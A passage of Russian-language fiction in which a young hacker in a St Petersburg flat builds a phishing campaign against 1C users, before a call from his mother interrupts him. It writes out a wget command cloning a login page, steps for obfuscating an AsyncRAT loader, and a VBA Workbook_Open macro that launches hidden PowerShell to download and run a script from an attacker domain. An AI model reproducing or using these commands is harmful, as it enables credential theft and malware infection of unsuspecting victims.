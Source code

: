 За окнами однокомнатной квартиры в девятиэтажной панели в Купчино темнел октябрьский вечер. Дождь размазывал по стеклу серые полосы. Внутри было темно, единственным источником света были два монитора, заливавшие комнату холодным сиянием. Квартира Никиты была его крепостью и тюрьмой. Продавленный диван, заваленный одеждой. Стол, уставленный пустыми банками из-под энергетиков. И в центре этого хаоса — алтарь. Его рабочее место.

Последние несколько часов он провёл, не замечая ни времени, ни голода, погружённый в мир, где всё подчинялось логике, где у каждой проблемы было решение, а у каждой защиты — уязвимость.

На левом мониторе был открыт веб-интерфейс Gophish — фреймворка для фишинговых атак. Никита уже настроил SMTP-сервер. Теперь нужно было создать наживку. Он открыл настоящую страницу авторизации облачного сервиса 1С, несколько минут изучал её исходный код, а затем одной командой в терминале Kali создал её полную копию у себя на диске.

*wget --mirror -p --convert-links -P ./1c_clone https://login․1c․ru*

Работа была монотонной, почти механической, но требовала предельного внимания. Он открыл скачанный index․html в текстовом редакторе и изменил атрибут action в теге &lt;form&gt;, указав в нём адрес своего сервера-ловушки. Теперь любой, кто введёт здесь логин и пароль, отправит их прямо ему.

Следующий шаг — полезная нагрузка. Он открыл Visual Studio и внёс пару изменений в исходный код простого C#-загрузчика: вписал URL, по которому будет лежать основной троян. В качестве трояна он решил использовать AsyncRAT — мощный, но хорошо известный антивирусам. Поэтому его нужно было замаскировать. Он скомпилировал проект, прогнал полученный loader․exe через онлайн-обфускатор, а затем запаковал его кастомным упаковщиком. Каждый слой маскировки снижал вероятность обнаружения.

Финальный штрих. Нужно было заставить жертву запустить этот файл. Он создал новую таблицу Excel, назвал её «Обновление_базы_данных_1С_Q3․xlsm» и написал простой VBA-макрос.

*Private Sub Workbook_Open()*

*Shell "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command ""IEX (New-Object Net․WebClient)․DownloadString('http://1c-buhupdate-pro․com/loader․ps1')""", vbHide*

*End Sub*

При открытии файла Excel запросит разрешение на «включение содержимого». Большинство людей, особенно паникующие бухгалтеры, нажмут «Да». И в этот момент PowerShell в скрытом режиме скачает и запустит всю цепочку заражения.

Он сохранил файл. Письмо, наживка, оружие. Всё было готово. Он сидел в темноте своей комнаты, и на его лице застыло слабое подобие ухмылки. Ловушка была готова. Теперь оставалось только дождаться, пока кто-нибудь нажмёт на кнопку.



*23:10.*

Никита откинулся в кресле, потянулся, услышав, как хрустнули позвонки. В квартире стояла тишина, нарушаемая лишь ровным шелестом системного блока. Резкая трель телефона пронзила её.

Он вздрогнул. Старый Xiaomi на столе завибрировал с запозданием, экран загорелся не сразу. На нём светилась фотография пожилой женщины с добрыми, уставшими глазами и надпись «Мама».

Ухмылка сползла с его лица. Он потёр пальцами переносицу, словно пытаясь стереть последние несколько часов.

«Чёрт. Поздно. Она волнуется. Надо было самому позвонить днём. Заработался. Опять…»

Сердце, до этого работавшее в ровном ритме, споткнулось и забилось чаще. Он вспомнил её лицо в больничной палате полгода назад. Бледное, измученное, но всё равно улыбающееся ему. И её слова: «Всё будет хорошо, сынок. Главное, ты себя береги». А он не берёг.
